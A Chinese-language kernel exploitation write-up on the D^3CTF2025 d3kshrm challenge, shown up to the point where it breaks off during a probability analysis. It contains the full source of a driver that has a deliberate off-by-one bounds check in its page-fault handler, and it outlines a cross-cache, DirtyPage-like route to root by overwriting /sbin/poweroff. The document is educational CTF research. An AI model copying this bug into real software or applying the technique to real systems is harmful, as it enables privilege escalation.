# 【pwn4kernel】Kernel Heap Off-by-Page技术分析

## 1. 测试环境

**测试版本**：Linux-6.14.8 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/6.14.8/02/bzImage)

笔者测试的内核版本是 `Linux (none) 6.14.8 #1 SMP PREEMPT_DYNAMIC Wed Jan 21 23:30:29 CST 2026 x86_64 GNU/Linux`。

**编译选项**：开启`CONFIG_CFI_CLANG`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_FUSE_FS`、`CONFIG_MEMCG`、`CONFIG_STATIC_USERMODEHELPER`、`CONFIG_USERFAULTFD`、`CONFIG_SLAB_MERGE_DEFAULT`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/6.14.8/02/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：本程序源自 **[D^3CTF2025 - d3kshrm](https://github.com/arttnba3/D3CTF2025_d3kshrm)** 内核挑战，其核心是在一个由`SLAB_NO_MERGE|SLAB_ACCOUNT`标志创建的独立Slab缓存中，通过`d3kshrm_vm_fault`函数中的边界检查缺失（使用`>`而非`>=`）导致一个精确的Off-by-Page漏洞，允许越界访问`d3kshrm::pages`数组后的内存，将相邻8字节数据当作`struct page`指针映射到用户空间；利用此漏洞需要采用页面级堆风水技术，在独立缓存中精心布局物理页面，使挑战模块的SLUB页面位于受害者对象（如`pipe_buffer`）之间，再通过`splice()`将只读文件（如`/sbin/poweroff`）页面存入`pipe_buffer`，利用越界映射获取写权限，实现类似CVE-2023-2008的DirtyPage-like利用，最终通过修改系统关机时以root权限执行的`/sbin/poweroff`文件获得代码执行能力，该挑战体现了严格隔离环境下内核漏洞利用的技术难点，如跨缓存利用、页面级内存操作，以及系统配置（如`/etc/inittab`中`::askfirst:/bin/ash`导致的非预期解）对安全的影响，具有重要的教育和研究价值。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on D^3CTF 2025 - d3kshrm
#include <linux/fdtable.h>
#include <linux/file.h>
#include <linux/fs.h>
#include <linux/gfp_types.h>
#include <linux/init.h>
#include <linux/mm.h>
#include <linux/module.h>
#include <linux/proc_fs.h>
#include <linux/sched.h>
#include <linux/seq_file.h>
#include <linux/slab.h>
#include <linux/spinlock.h>
#include <linux/spinlock_types.h>
#include <linux/time32.h>
#include <linux/uaccess.h>

#define MAX_PAGES   0x200
#define MAX_PAGE_NR 0x100

#define CMD_CREATE_D3KSHRM 0x3361626e
#define CMD_DELETE_D3KSHRM 0x74747261
#define CMD_SELECT_D3KSHRM 0x746e6162
#define CMD_UNBIND_D3KSHRM 0x33746172

#define MAX_SLOT_NR 0x10

struct slot {
	long pid;
	long ref_count;
};

struct chunk_t {
	struct slot slots[MAX_SLOT_NR];
	size_t page_count;
	struct page **pages;
	spinlock_t lock;
	long in_use;
	long total_ref;
};

static struct chunk_t *chunks[MAX_PAGE_NR] = { 0 };

static size_t holder = 0;
static spinlock_t d3kshrm_lock;
static struct kmem_cache *d3kshrm_cache = NULL;

struct proc_dir_entry *proc_entry;

static int d3kshrm_open(struct inode *, struct file *);
static int d3kshrm_release(struct inode *, struct file *);
static ssize_t d3kshrm_read(struct file *, char __user *, size_t, loff_t *);
static ssize_t d3kshrm_write(struct file *, const char __user *, size_t,
			     loff_t *);
static long d3kshrm_ioctl(struct file *, unsigned int, unsigned long);
static int d3kshrm_mmap(struct file *, struct vm_area_struct *);

static const struct proc_ops d3kshrm_ops = {.proc_open = d3kshrm_open,
	.proc_release = d3kshrm_release,
	.proc_read = d3kshrm_read,
	.proc_write = d3kshrm_write,
	.proc_ioctl = d3kshrm_ioctl,
	.proc_mmap = d3kshrm_mmap
};

static void d3kshrm_vm_close(struct vm_area_struct *);
static vm_fault_t d3kshrm_vm_fault(struct vm_fault *);
static const struct vm_operations_struct d3kshrm_vm_ops = {
	.close = d3kshrm_vm_close,.fault = d3kshrm_vm_fault
};

static int d3kshrm_open(struct inode *inode, struct file *file)
{
	pr_info("[d3kshrm:] d3kshrm file opened.\n");
	file->private_data = NULL;
	holder++;
	return 0;
}

static int d3kshrm_release(struct inode *inode, struct file *file)
{
	int i = 0;
	struct chunk_t *chunk = (struct chunk_t *)file->private_data;
	if (chunk) {
		struct task_struct *current_task = NULL;
		pid_t pid = 0;
		spin_lock(&(chunk->lock));
		current_task = current;
		pid = current_task->pid;
		chunk->in_use--;
		for (i = 0; i < MAX_SLOT_NR; i++) {
			if (chunk->slots[i].pid == pid) {
				chunk->slots[i].ref_count--;
				if (!chunk->slots[i].ref_count) {
					chunk->slots[i].pid = 0;
				}
			}
		}
		spin_unlock(&(chunk->lock));
		file->private_data = NULL;
	}
	holder--;
	pr_info("[d3kshrm:] d3kshrm file released.\n");
	return 0;
}

static ssize_t d3kshrm_read(struct file *file, char __user *buf, size_t count,
			    loff_t *ppos)
{
	pr_info
	    ("[d3kshrm:] This function hadn\'t been completed yet bcuz I\'m a "
	     "pigeon!\n");
	return 0;
}

static ssize_t d3kshrm_write(struct file *file, const char __user *buf,
			     size_t count, loff_t *ppos)
{
	pr_info
	    ("[d3kshrm:] This function hadn\'t been completed yet bcuz I\'m a "
	     "pigeon!\n");
	return 0;
}

static int is_file_present_in_fdtable(struct file *target_file)
{
	struct files_struct *files = current->files;
	struct fdtable *fdt;
	unsigned int fd;
	int found = 0;

	if (!files || !target_file)
		return -EINVAL;

	spin_lock(&files->file_lock);
	fdt = files_fdtable(files);
	for (fd = 0; fd < fdt->max_fds; fd++) {
		if (!test_bit(fd, fdt->open_fds))
			continue;

		if (fdt->fd[fd] == target_file) {
			found = 1;
			break;
		}
	}
	spin_unlock(&files->file_lock);
	return found;
}

static long d3kshrm_ioctl(struct file *file, unsigned int cmd,
			  unsigned long arg)
{
	long ret = 0;
	int i = 0;
	int j = 0;
	int is_failed = 0;
	int is_success = 0;
	spin_lock(&d3kshrm_lock);
	if (cmd == CMD_CREATE_D3KSHRM) {
		int idle_idx = -1;
		for (i = 0; i < MAX_PAGE_NR; i++) {
			if (!chunks[i]) {
				idle_idx = i;
				break;
			}
		}

		if (idle_idx == -1) {
			pr_info("[d3kshrm:] shrm is full.\n");
			ret = -EINVAL;
			goto out;
		}

		if (arg > MAX_PAGES) {
			pr_info("[d3kshrm:] request too many pages.\n");
			ret = -EINVAL;
			goto out;
		}
		struct chunk_t *chunk =
		    kmalloc(sizeof(struct chunk_t), GFP_KERNEL);
		if (!chunk) {
			pr_info
			    ("[d3kshrm:] Unable to allocate new d3kshrm struct.\n");
			ret = -ENOMEM;
			goto out;
		}

		struct page **pages =
		    (struct page **)kmem_cache_alloc_noprof(d3kshrm_cache,
							    GFP_KERNEL_ACCOUNT);
		if (!pages) {
			kfree(chunk);
			pr_info
			    ("[d3kshrm:] Unable to allocate new d3kshrm struct.\n");
			ret = -ENOMEM;
			goto out;
		}
		memset(pages, 0, 0x1000);
		chunk->pages = pages;
		chunk->page_count = arg;

		spin_lock_init(&(chunk->lock));
		chunk->in_use = 0;
		chunk->total_ref = 0;
		for (i = 0; i < MAX_SLOT_NR; i++) {
			chunk->slots[i].pid = 0;
			chunk->slots[i].ref_count = 0;
		}

		for (i = 0; i < chunk->page_count; i++) {
			chunk->pages[i] = alloc_pages_noprof(0xdc0, 0);
			if (!chunk->pages[i]) {
				for (j = 0; j < chunk->page_count; j++) {
					if (chunk->pages[j]) {
						__free_pages(chunk->pages[j],
							     0);
					}
				}
				is_failed = 1;
				break;
			}
		}
		if (is_failed) {
			kmem_cache_free(d3kshrm_cache, chunk->pages);
			kfree(chunk);
			pr_info
			    ("[d3kshrm:] Unable to allocate new d3kshrm struct.\n");
			ret = -ENOMEM;
			goto out;
		}
		chunks[idle_idx] = chunk;
		pr_info
		    ("[d3kshrm:] Successfully allocated new d3kshrm, id: %d.\n",
		     idle_idx);
		ret = idle_idx;
	} else if (cmd == CMD_DELETE_D3KSHRM) {
		struct chunk_t *chunk = NULL;
		size_t idx = arg;
		if (idx > MAX_PAGE_NR - 1) {
			pr_info("[d3kshrm:] request index out of bound.\n");
			ret = -EINVAL;
			goto out;
		}
		chunk = chunks[idx];
		if (!chunk) {
			pr_info("[d3kshrm:] request index not existed.\n");
			ret = -EINVAL;
			goto out;
		}
		spin_lock(&(chunk->lock));
		if (chunk->in_use) {
			pr_info
			    ("[d3kshrm:] d3kshrm to be released is still in used, aborted.\n");
			spin_unlock(&(chunk->lock));
			goto out;
		}
		chunk->total_ref = 0;
		for (i = 0; i < chunk->page_count; i++) {
			if (chunk->pages[i]) {
				__free_pages(chunk->pages[i], 0);
			}
		}
		kmem_cache_free(d3kshrm_cache, chunk->pages);
		spin_unlock(&(chunk->lock));
		kfree(chunk);
		chunks[idx] = NULL;
		pr_info("[d3kshrm:] d3kshrm[%zu] has been released.\n", idx);
		ret = idx;
	} else if (cmd == CMD_SELECT_D3KSHRM) {
		struct task_struct *current_task = current;
		struct files_struct *files;
		pid_t pid = current_task->pid;
		struct chunk_t *chunk = NULL;
		size_t idx = arg;
		is_success = 0;

		if (!current_task->files) {
			pr_info("[d3kshrm:] current_task->files is NULL!\n");
			goto out;
		}

		files = current_task->files;

		is_success = is_file_present_in_fdtable(file);

		if (!is_success) {
			pr_info
			    ("[d3kshrm:] Unable to find file descriptor for file %p. It may "
			     "not be open in the current process.\n", file);
			goto out;
		} else {
			pr_info
			    ("[d3kshrm:] File %p found in the process's file descriptor table.\n",
			     file);
		}
		if (idx > MAX_PAGE_NR - 1) {
			pr_info("[d3kshrm:] request index out of bound.\n");
			ret = -EINVAL;
			goto out;
		}
		if (!chunks[idx]) {
			pr_info("[d3kshrm:] request index not existed.\n");
			ret = -EINVAL;
			goto out;
		}
		if (file->private_data) {
			pr_info
			    ("[d3kshrm:] Current file descriptor has already been bound to a "
			     "d3kshrm struct.\n");
			goto out;
		}
		chunk = chunks[idx];
		spin_lock(&(chunk->lock));
		is_success = 0;
		for (i = 0; i < MAX_SLOT_NR; i++) {
			if (chunk->slots[i].pid == pid) {
				chunk->slots[i].ref_count++;
				is_success = 1;
				break;
			}
		}
		if (!is_success) {
			chunk->slots[0].pid = pid;
			chunk->slots[0].ref_count++;
		}
		chunk->in_use++;
		file->private_data = chunk;
		spin_unlock(&(chunk->lock));
		pr_info
		    ("[d3kshrm:] File descriptor in task %d has been bound to "
		     "d3kshrm[%zu].\n", pid, idx);
		ret = idx;
	} else if (cmd == CMD_UNBIND_D3KSHRM) {
		struct task_struct *current_task = current;
		struct files_struct *files;
		pid_t pid = current_task->pid;
		struct chunk_t *chunk = NULL;

		if (!current_task->files) {
			pr_info("[d3kshrm:] current_task->files is NULL!\n");
			goto out;
		}

		files = current_task->files;

		is_success = is_file_present_in_fdtable(file);

		if (!is_success) {
			pr_info
			    ("[d3kshrm:] Unable to find file descriptor for file %p. It may "
			     "not be open in the current process.\n", file);
			goto out;
		} else {
			pr_info
			    ("[d3kshrm:] File %p found in the process's file descriptor table.\n",
			     file);
		}
		if (!chunk) {
			pr_info
			    ("[d3kshrm:] Current file descriptor hadn\'t been bound to a "
			     "d3kshrm struct.\n");
			goto out;
		}
		spin_lock(&(chunk->lock));
		is_success = 0;
		for (i = 0; i < MAX_SLOT_NR; i++) {
			if (chunk->slots[i].pid == pid) {
				chunk->slots[i].ref_count--;
				if (!chunk->slots[i].ref_count) {
					chunk->slots[i].pid = 0;
				}
				is_success = 1;
				break;
			}
		}
		if (!is_success) {
			spin_unlock(&(chunk->lock));
			pr_info("[d3kshrm:] ilegal request.\n");
			ret = -EINVAL;
			goto out;
		}
		chunk->in_use--;
		spin_unlock(&(chunk->lock));
		file->private_data = NULL;
	}
out:
	spin_unlock(&d3kshrm_lock);
	return ret;
}

static int d3kshrm_mmap(struct file *file, struct vm_area_struct *vma)
{
	struct chunk_t *chunk = (struct chunk_t *)file->private_data;
	struct task_struct *current_task = current;
	pid_t pid = current_task->pid;
	int i = 0;
	int is_success = 0;
	spin_lock(&d3kshrm_lock);
	if (!chunk) {
		pr_info("[d3kshrm:] file descriptor not bound with d3kshrm!\n");
		goto out;
	}
	if (vma->vm_pgoff) {
		pr_info
		    ("[d3kshrm:] Non-zero start-point for mapping is not allowed!\n");
		goto out;
	}
	spin_lock(&(chunk->lock));
	if (((vma->vm_end - vma->vm_start) >> 12) > chunk->page_count) {
		pr_info
		    ("[d3kshrm:] request memory space size out of specific d3kshrm size!\n");
		spin_unlock(&(chunk->lock));
		goto out;
	}
	for (i = 0; i < MAX_SLOT_NR; i++) {
		if (chunk->slots[i].pid == pid) {
			chunk->slots[i].ref_count++;
			is_success = 1;
			break;
		}
	}
	if (is_success) {
		chunk->in_use++;
	} else {
		pr_info
		    ("[d3kshrm:]  Unable to find specific owner in d3kshrm::owner when "
		     "recording ref, kernel objects might get corrupted. Operation "
		     "canceled!\n");
	}
	spin_unlock(&(chunk->lock));
	vma->vm_ops = &d3kshrm_vm_ops;
	vma->vm_private_data = chunk;
out:
	spin_unlock(&d3kshrm_lock);
	return 0;
}

static void d3kshrm_vm_close(struct vm_area_struct *vma)
{
	struct chunk_t *chunk = (struct chunk_t *)vma->vm_private_data;
	struct task_struct *current_task = current;
	pid_t pid = current_task->pid;
	int i = 0;
	int is_success = 0;

	spin_lock(&(chunk->lock));
	for (i = 0; i < MAX_SLOT_NR; i++) {
		if (chunk->slots[i].pid == pid) {
			chunk->slots[i].ref_count--;
			if (!(chunk->slots[i].ref_count)) {
				chunk->slots[i].pid = 0;
			}
			is_success = 1;
			break;
		}
	}
	if (is_success) {
		chunk->in_use--;
	} else {
		pr_info
		    ("[d3kshrm:]  Unable to find specific owner in d3kshrm::owner when "
		     "recording ref, kernel objects might get corrupted. Operation "
		     "canceled!\n");
	}
	spin_unlock(&(chunk->lock));
}

static vm_fault_t d3kshrm_vm_fault(struct vm_fault *vmf)
{
	struct vm_area_struct *vma = vmf->vma;
	struct chunk_t *chunk = (struct chunk_t *)vma->vm_private_data;
	vm_fault_t res = 0;
	spin_lock(&(chunk->lock));

	/* vulnerability here */
	// if (vmf->pgoff >= d3kshrm->page_count) {
	if (vmf->pgoff > chunk->page_count) {
		res = VM_FAULT_SIGBUS;
		goto out;
	}

	get_page(chunk->pages[vmf->pgoff]);
	vmf->page = chunk->pages[vmf->pgoff];
out:
	spin_unlock(&chunk->lock);
	return res;
}

static int d3kshrm_init(void)
{
	struct kmem_cache_args args = { 0 };
	proc_entry = proc_create("d3kshrm", 0x1b6, NULL, &d3kshrm_ops);
	if (proc_entry == NULL) {
		return -ENOMEM;
	}
	d3kshrm_cache =
	    __kmem_cache_create_args("d3kshrm_cache", 0x1000, &args,
				     SLAB_NO_MERGE | SLAB_ACCOUNT);
	if (!d3kshrm_cache) {
		pr_info("[d3kshrm:] d3kshrm_cache slab cache create failed.\n");
		return -ENOMEM;
	}
	spin_lock_init(&d3kshrm_lock);
	holder = 0;
	return 0;
}

static void d3kshrm_exit(void)
{
	int i = 0;
	int j = 0;
	spin_lock(&d3kshrm_lock);
	if (holder > 0) {
		pr_info
		    ("[d3kshrm:] Unable to unload D3KSHRM module, some shared memory is "
		     "still in used.\n");
		goto out;
	}
	for (i = 0; i < MAX_PAGE_NR; i++) {
		if (chunks[i]) {
			spin_lock(&(chunks[i]->lock));
			if (chunks[i]->in_use) {
				pr_info
				    ("[d3kshrm:] Unable to unload D3KSHRM module, some shared memory is "
				     "still in used.\n");
				spin_unlock(&(chunks[i]->lock));
				goto out;
			}
			if (chunks[i]->page_count) {
				for (j = 0; j < chunks[i]->page_count; j++) {
					__free_pages(chunks[i]->pages[j], 0);
				}
			}
			kmem_cache_free(d3kshrm_cache, chunks[i]->pages);
			spin_unlock(&(chunks[i]->lock));
			kfree(chunks[i]);
			chunks[i] = 0;
		}
	}
	kmem_cache_destroy(d3kshrm_cache);
	remove_proc_entry("d3kshrm", NULL);
out:
	spin_unlock(&d3kshrm_lock);
}

module_init(d3kshrm_init);
module_exit(d3kshrm_exit);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

### 2-1. 驱动模块核心架构

#### 2-1-1. 模块设计理念与架构

d3kshrm模块实现了一个基于Linux内核的共享内存管理系统，其核心设计理念是提供一种高效的进程间通信机制。该模块通过proc文件系统接口向用户空间暴露功能，采用面向对象的设计思想，将共享内存区域抽象为`chunk_t`对象进行管理。


```mermaid
classDiagram
    class chunk_t {
        -struct slot slots[MAX_SLOT_NR]
        -size_t page_count
        -struct page** pages
        -spinlock_t lock
        -long in_use
        -long total_ref
        +初始化方法()
        +资源释放方法()
    }

    class slot {
        -long pid
        -long ref_count
    }

    chunk_t "1" *-- "0..10" slot : 包含
```

#### 2-1-2. 全局数据结构布局

模块维护的核心数据结构包括全局chunks数组、专用slab缓存和同步控制机制：

```c
/********************************/
/**      d3kshrm模块全局状态     **/
/********************************/
#define MAX_PAGE_NR 0x100
static struct chunk_t *chunks[MAX_PAGE_NR] = { 0 }; // 静态全局数组
static size_t holder = 0;                           // 当前holder计数
static spinlock_t d3kshrm_lock;                     // 全局自旋锁
static struct kmem_cache *d3kshrm_cache = NULL;     // 专用slab缓存
struct proc_dir_entry *proc_entry;                  // proc文件入口
```

**chunk_t结构体详细布局**：

```c
/* offset      |    size */  type = struct chunk_t {
/* 0x0000      |  0x0100 */    struct slot slots[16];
/* 0x0100      |  0x0008 */    size_t page_count;
/* 0x0108      |  0x0008 */    struct page **pages;
/* 0x0110      |  0x0004 */    spinlock_t lock;
/* XXX  4-byte hole      */
/* 0x0118      |  0x0008 */    long in_use;
/* 0x0120      |  0x0008 */    long total_ref;

                               /* total size (bytes):  296 */
                             }
/* offset      |    size */  type = struct slot {
/* 0x0000      |  0x0008 */    long pid;
/* 0x0008      |  0x0008 */    long ref_count;

                               /* total size (bytes):   16 */
                             }
```

#### 2-1-3. 模块初始化与资源管理

模块初始化过程通过`d3kshrm_init`函数完成，该函数执行以下关键操作：


```mermaid
sequenceDiagram
    participant User as 用户空间
    participant Proc as /proc文件系统
    participant Module as d3kshrm模块
    participant Slab as Slab分配器

    User->>Proc: insmod d3kshrm.ko
    Proc->>Module: 调用module_init(d3kshrm_init)

    Module->>Proc: proc_create("d3kshrm", 0x1b6, NULL, &d3kshrm_ops)
    Proc-->>Module: 返回proc_entry指针

    Module->>Slab: __kmem_cache_create_args("d3kshrm_cache", 0x1000, &args, SLAB_NO_MERGE)
    Slab-->>Module: 返回d3kshrm_cache指针

    Module->>Module: spin_lock_init(&d3kshrm_lock)
    Module->>Module: holder = 0
    Module-->>User: 返回0 (成功)
```

### 2-2. 关键函数深度剖析

#### 2-2-1. ioctl命令处理系统

`d3kshrm_ioctl`函数是模块的核心命令分发器，处理来自用户空间的四种主要命令。该函数采用严格的参数验证和状态检查机制，确保系统稳定性。

**命令处理流程框架**


```mermaid
flowchart TD
    Start([d3kshrm_ioctl入口]) --> Lock[获取d3kshrm_lock]
    Lock --> CheckCmd{检查命令码}

    CheckCmd -- CMD_CREATE_D3KSHRM --> Create[处理创建命令]
    CheckCmd -- CMD_DELETE_D3KSHRM --> Delete[处理删除命令]
    CheckCmd -- CMD_SELECT_D3KSHRM --> Select[处理选择命令]
    CheckCmd -- CMD_UNBIND_D3KSHRM --> Unbind[处理解绑命令]
    CheckCmd -- 其他 --> Invalid[无效命令]

    Create --> ResultCreate[返回chunk索引]
    Delete --> ResultDelete[返回chunk索引]
    Select --> ResultSelect[返回chunk索引]
    Unbind --> ResultUnbind[返回0]
    Invalid --> Error[返回-EINVAL]

    ResultCreate --> Unlock
    ResultDelete --> Unlock
    ResultSelect --> Unlock
    ResultUnbind --> Unlock
    Error --> Unlock

    Unlock[释放d3kshrm_lock] --> Exit([函数返回])
```

**CMD_CREATE_D3KSHRM详细流程**


```mermaid
flowchart TD
    Start([CMD_CREATE_D3KSHRM]) --> CheckIdx[查找空闲chunks索引]
    CheckIdx --> CheckIdxResult{找到空闲索引?}

    CheckIdxResult -- 否 --> Fail1[返回-EINVAL]
    CheckIdxResult -- 是 --> CheckArg[检查arg参数]

    CheckArg --> CheckArgResult{arg ≤ MAX_PAGES?}
    CheckArgResult -- 否 --> Fail2[返回-EINVAL]
    CheckArgResult -- 是 --> AllocChunk[分配chunk_t结构体]

    AllocChunk --> AllocChunkResult{分配成功?}
    AllocChunkResult -- 否 --> Fail3[返回-ENOMEM]
    AllocChunkResult -- 是 --> AllocPagesArr[分配pages数组]

    AllocPagesArr --> AllocPagesArrResult{分配成功?}
    AllocPagesArrResult -- 否 --> FreeChunk[释放chunk_t] --> Fail4[返回-ENOMEM]
    AllocPagesArrResult -- 是 --> InitChunk[初始化chunk_t字段]

    InitChunk --> AllocPhysPages[循环分配物理页]
    AllocPhysPages --> AllocPhysPagesResult{全部分配成功?}

    AllocPhysPagesResult -- 否 --> FreeAllPages[释放已分配页] --> FreePagesArr[释放pages数组] --> FreeChunk2[释放chunk_t] --> Fail5[返回-ENOMEM]
    AllocPhysPagesResult -- 是 --> RegisterChunk[注册到chunks数组]

    RegisterChunk --> Success[返回chunk索引]

    Fail1 --> Exit
    Fail2 --> Exit
    Fail3 --> Exit
    Fail4 --> Exit
    Fail5 --> Exit
    Success --> Exit

    Exit([命令处理结束])
```

**内存分配层次结构**：

CMD_CREATE_D3KSHRM命令触发三层内存分配结构，形成完整的内存管理链：

<pre>
用户空间请求: ioctl(fd, CMD_CREATE_D3KSHRM, 0x200)
┌─────────────────────────────────────────────────────────────┐
│                    内核空间处理                              │
├─────────────────────────────────────────────────────────────┤
│ 1. 分配chunk_t结构体 (kmalloc, 512字节)                      │
│    ┌─────────────────────────────────┐                      │
│    │ struct chunk_t                  │                      │
│    │   slots[16]                     │                      │
│    │   page_count = 0x200            │                      │
│    │   pages = 指针                   │                      │
│    │   lock = 初始化                  │                      │
│    │   in_use = 0                    │                      │
│    │   total_ref = 0                 │                      │
│    └─────────────────────────────────┘                      │
│                            │                                │
│ 2. 分配pages数组 (kmem_cache_alloc, 4096字节)                │
│    ┌─────────────────────────────────┐                      │
│    │ struct page* pages[512]         │                      │
│    │   索引0: NULL                   │                      │
│    │   索引1: NULL                   │                      │
│    │   ...                           │                      │
│    │   索引511: NULL                 │                      │
│    └─────────────────────────────────┘                      │
│                            │                                │
│ 3. 分配物理页面 (alloc_pages, 512×4096字节)                   │
│    ┌───┬───┬───┬───┬───┬───┬───┬───┐                        │
│    │ P │ P │ P │ P │ P │ P │ P │ P │ ... (共512页)          │
│    └───┴───┴───┴───┴───┴───┴───┴───┘                        │
└─────────────────────────────────────────────────────────────┘
</pre>

#### 2-2-2. mmap内存映射机制

`d3kshrm_mmap`函数负责建立用户虚拟地址空间与内核物理页面之间的映射关系。该函数是连接用户空间和内核空间的关键桥梁。

**mmap映射流程**


```mermaid
sequenceDiagram
    participant User as 用户进程
    participant VFS as 虚拟文件系统
    participant Module as d3kshrm模块
    participant VMA as 虚拟内存区域

    User->>VFS: mmap(fd, addr, len, prot, flags, offset)
    VFS->>Module: 调用d3kshrm_mmap(file, vma)

    Note over Module: 映射验证阶段

    Module->>Module: 检查file->private_data是否为NULL
    alt 未绑定chunk
        Module-->>User: 打印错误，返回0
    else 已绑定chunk
        Module->>Module: 检查vma->vm_pgoff是否为0
        alt 偏移不为0
            Module-->>User: 打印错误，返回0
        else 偏移为0
            Module->>Module: 计算请求页数 = (vma->vm_end - vma->vm_start) >> 12
            Module->>Module: 检查请求页数 ≤ chunk->page_count
            alt 超出范围
                Module-->>User: 打印错误，返回0
            else 在范围内
                Note over Module: 映射建立阶段

                Module->>Module: spin_lock(&chunk->lock)
                Module->>Module: 在slots中查找当前进程PID

                alt 找到PID
                    Module->>Module: 增加对应slot的ref_count
                else 未找到PID
                    Module->>Module: 使用第一个空闲slot
                    Module->>Module: 设置pid和ref_count=1
                end

                Module->>Module: chunk->in_use++
                Module->>Module: spin_unlock(&(chunk->lock))

                Module->>VMA: 设置vma->vm_ops = &d3kshrm_vm_ops
                Module->>VMA: 设置vma->vm_private_data = chunk

                Module-->>User: 返回0 (成功)
            end
        end
    end
```

#### 2-2-3. 缺页异常处理函数

`d3kshrm_vm_fault`函数是漏洞所在的核心位置，负责处理用户空间访问映射区域时引发的缺页异常。该函数的设计缺陷导致了Off-by-Page漏洞。

##### 2-2-3-1. 正常缺页处理流程


```mermaid
flowchart TD
    Start([缺页异常发生]) --> GetVMA[获取vma结构]
    GetVMA --> GetChunk[从vma->vm_private_data获取chunk]
    GetChunk --> Lock[获取chunk->lock]

    Lock --> CalcOffset[计算页面偏移pgoff]
    CalcOffset --> CheckBoundary{边界检查}

    CheckBoundary -- pgoff有效 --> GetPage["获取pages[pgoff]"]
    GetPage --> IncreaseRef[增加页面引用计数get_page]
    IncreaseRef --> SetPage["设置vmf->page = pages[pgoff]"]
    SetPage --> Unlock[释放chunk->lock]
    Unlock --> Success[返回0成功]

    CheckBoundary -- pgoff无效 --> SignalBus[设置VM_FAULT_SIGBUS]
    SignalBus --> Unlock2[释放chunk->lock]
    Unlock2 --> Fail[返回错误]

    Success --> Exit([处理完成])
    Fail --> Exit
```

##### 2-2-3-2. 边界检查缺陷分析

**正确与错误边界检查对比**：

d3kshrm_vm_fault函数中的边界检查逻辑存在根本性设计缺陷。正确的边界检查应确保访问的页面索引不超出有效范围，即对于包含N个页面的chunk，有效索引范围为[0, N-1]。然而，实际实现中的检查条件使用了错误的关系运算符。

<pre>
边界检查逻辑对比
┌─────────────────────────────────────────────────────────────┐
│             正确的边界检查逻辑                               │
├─────────────────────────────────────────────────────────────┤
│ if (vmf->pgoff >= chunk->page_count) {                      │
│     res = VM_FAULT_SIGBUS;                                  │
│     goto out;                                               │
│ }                                                           │
│                                                             │
│ 数学表示: 有效范围 [0, page_count-1]                          │
│ 当pgoff = page_count时，触发SIGBUS                           │
└─────────────────────────────────────────────────────────────┘
                            │
┌─────────────────────────────────────────────────────────────┐
│             实际的边界检查逻辑                               │
├─────────────────────────────────────────────────────────────┤
│ if (vmf->pgoff > chunk->page_count) {                       │
│     res = VM_FAULT_SIGBUS;                                  │
│     goto out;                                               │
│ }                                                           │
│                                                             │
│ 数学表示: 有效范围 [0, page_count]                           │
│ 当pgoff = page_count时，检查通过                             │
└─────────────────────────────────────────────────────────────┘
</pre>

**边界条件状态机**：


```mermaid
stateDiagram-v2
    [*] --> 检查开始
    检查开始 --> 条件判断: 获取pgoff和page_count

    条件判断: pgoff > page_count?
    条件判断 --> 触发SIGBUS: 是
    条件判断 --> 条件判断2: 否

    条件判断2: pgoff == page_count?
    条件判断2 --> 越界访问: 是
    条件判断2 --> 正常访问: 否

    触发SIGBUS --> [*]
    正常访问 --> 页面映射
    越界访问 --> 页面映射

    页面映射 --> [*]
```

这种一个字符的差异（`>`与`>=`）导致了完全不同的安全属性。在page_count=512（0x200）的特殊情况下，当用户访问第512个页面时，边界检查错误地允许访问，导致数组越界访问pages[512]。由于pages数组恰好占满整个4KB物理页，pages[512]的访问将跨越页边界，访问到相邻的下一个物理页的起始位置。

### 2-3. 漏洞原理与数学建模

#### 2-3-1. 漏洞数学形式化

设以下变量：

- $$C$$: chunk_t结构实例
- $$P = C.pages$$: 页指针数组
- $$N = C.page\_count$$: 数组有效长度
- $$i = vmf.pgoff$$: 请求的页面偏移索引
- $$A$$: pages数组基地址
- $$P_s = 4096$$: 物理页大小（字节）
- $$ptr_s = 8$$: 指针大小（64位系统）

**数组访问模型**：
对于数组$$P$$，有效索引范围为：

$$
\text{ValidIndices}(P) = \{i \in \mathbb{Z} \mid 0 \leq i \leq N-1\}
$$

**边界检查函数**：
定义边界检查函数$$B(i, N)$$：

$$
B(i, N) = \begin{cases}
\text{true} & \text{if } i > N \\
\text{false} & \text{otherwise}
\end{cases}
$$

**正确的边界检查函数**应为：

$$
B_{\text{correct}}(i, N) = \begin{cases}
\text{true} & \text{if } i \geq N \\
\text{false} & \text{otherwise}
\end{cases}
$$

**漏洞条件**：
当$$i = N$$时：

- $$B(i, N) = \text{false}$$（错误地通过检查）
- $$B_{\text{correct}}(i, N) = \text{true}$$（应拒绝访问）

**越界访问地址计算**：
访问$$P[N]$$的地址为：

$$
\text{Addr}_{P[N]} = A + N \times ptr_s
$$

**页边界跨越条件**：
由于$$P$$数组大小为$$N \times ptr_s$$，当$$N = \frac{P_s}{ptr_s} = 512$$时：

$$
N \times ptr_s = 512 \times 8 = 4096 = P_s
$$

此时：

$$
\text{Addr}_{P[N]} = A + 4096
$$

由于$$A$$位于某个物理页内，设该页基地址为$$A_{\text{page}}$$，则：

$$
A_{\text{page}} \leq A < A_{\text{page}} + 4096
$$

因此：

$$
A_{\text{page}} + 4096 \leq \text{Addr}_{P[N]} < A_{\text{page}} + 8192
$$

这意味着$$\text{Addr}_{P[N]}$$必定位于下一个物理页中。

#### 2-3-2. 内存布局概率模型

**成功条件概率分析**：

设以下事件：

- $$E_1$$: pages数组分配在order 3块的最后一个4KB页
- $$E_2$$: 目标页面分配在相邻的order 3块的第一个4KB页
- $$E_3$$: 目标页面内容可控
- $$E_4$$: 成功触发越界访问

则整体成功概率为：

$$
P_{\text{success}} = P(E_1) \times P(E_2 \mid E_1) \times P(E_3 \mid E_1, E_2) \times P(E_4 \mid E_1, E_2, E_3)
$$

**各阶段概率估计**：

